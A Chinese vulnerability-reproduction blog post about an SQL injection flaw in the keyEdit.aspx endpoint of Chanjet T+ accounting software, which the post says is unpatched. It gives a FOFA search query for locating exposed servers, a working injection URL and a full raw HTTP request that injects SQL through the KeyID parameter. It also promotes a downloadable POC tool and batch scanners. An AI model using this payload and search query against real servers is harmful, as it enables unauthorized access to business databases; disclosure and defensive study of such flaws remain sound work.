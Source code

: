 #  畅捷通TPlus keyEdit.aspx接口存在SQL注入漏洞   
南风徐来  南风漏洞复现文库   2024-05-07 22:57  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 畅捷通TPlus简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
畅捷通T+专属云适用于需要一体化管理的企业，财务管理、业务管理、零售管理、生产管理、物流管理、移动仓管、营销管理、委外加工等人财货客一体化管理。  
## 2.漏洞描述  
  
畅捷通T+专属云适用于需要一体化管理的企业，财务管理、业务管理、零售管理、生产管理、物流管理、移动仓管、营销管理、委外加工等人财货客一体化管理。畅捷通TPlus keyEdit.aspx接口存在SQL注入漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
畅捷通T+  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiaw4A3PzfNnbaraicVSnnLMObBpHFJdiaCDJujqjswvfiaIbHEnw0AuyZXg/640?wx_fmt=jpeg&from=appmsg "null")  
  
畅捷通TPlus keyEdit.aspx接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
app="畅捷通-TPlus"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/tplus/UFAQD/keyEdit.aspx?KeyID=1%27%20and%201=(select%20sys.fn_varbintohexstr(hashbytes('MD5','1')))%20--&preload=1  
  
漏洞数据包：  
```
GET /tplus/UFAQD/keyEdit.aspx?KeyID=1%27%20and%201=(select%20@@version)%20--&preload=1 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xxx.xxx.xxx
Accept-Charset: utf-8
```  
  
执行select @@version  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgia4xndLppzS4hneicDeTGcnfMTOI6htSyM1fD0IL9gbXQr85zorLNzDRg/640?wx_fmt=jpeg&from=appmsg "null")  
  
执行select db_name()   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiacnb4O3qxcGvs8SVqI5OPYr2gpEXFey8icU5H5KW6zJLM7nJdSLyZSGg/640?wx_fmt=jpeg&from=appmsg "")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现132 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiaR9Uu1icmeAMVfyhgjH0AFA1icMxtWa5f6DzUjt3Q8vC8eMjwsPMThjzg/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgia98LNCJxrZic0cbrTelQGicdQ0lYe83YI8lsacp3PN8RaGwq8Ay1mj1ibw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiaXgt8qcg60ib43ReWlR7FcvrSfzibJnia4uKO5zzR9kutXbY0WszaqdnXw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiajSLhg4u7ibGVCPFT4Vv20ntJH02Y0gJxTKncLjvVQiaYKQHQXIFevhbA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiaEvsZ1ANousVdCkLlOgh7LOXnJyVpAss2rPzc929w9Vcqq7XoAEXzkA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiaw35C8BPYkGUmKVmMkMc6ib8GWC1QG9EY8ArHUVdBugIvNwLtB5scl3g/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
目前厂商尚未提供相关漏洞补丁链接，请关注厂商主页及时更新： https://www.chanjet.com/  
## 8.往期回顾  
  
  
[用友时空KSOA linksframe/linkadd.jsp接口存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486420&idx=1&sn=554681943252463531f2ab502b1e6f50&chksm=974b86d3a03c0fc5023167ad95a810cde23c79b973d4541ad5a708b046f6356b2e165fcdec78&scene=21#wechat_redirect)  
  
  
[图创图书馆集群管理系统 updOpuserPw接口存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486420&idx=2&sn=6a461c6f7a17fdcdb37ce5181a0437a8&chksm=974b86d3a03c0fc5b25d3592e1e135576bebb3f4f92b788e74d3ae43137f9747e135c7926705&scene=21#wechat_redirect)  
  
  
